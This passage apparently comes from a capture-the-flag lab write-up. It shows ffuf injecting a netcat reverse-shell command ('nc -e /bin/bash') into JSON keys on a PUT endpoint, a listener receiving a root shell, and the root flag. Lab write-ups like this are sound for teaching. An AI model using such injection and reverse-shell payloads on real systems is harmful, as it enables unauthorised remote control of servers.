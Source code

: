 We have the source code for the script ***localhost.sh*** on the root directory.

    Local Machine:

    # ffuf -c -w payloads.txt -u http://otp.hmv:5001/ -X PUT -H 'Content-Type: application/json' -d '{"FUZZ": "nc -e /bin/bash 10.0.0.21 4445"}'

    # nc -lnvp 4445
    connect to [10.0.0.27] from otp.hmv [10.0.0.21] 47886
    id -a
    uid=0(root) gid=0(root) groups=0(root)

>

    Remote Machine:

    # cat flag_r00t.txt
    8a2d55707a9084982649dadc04b426a0
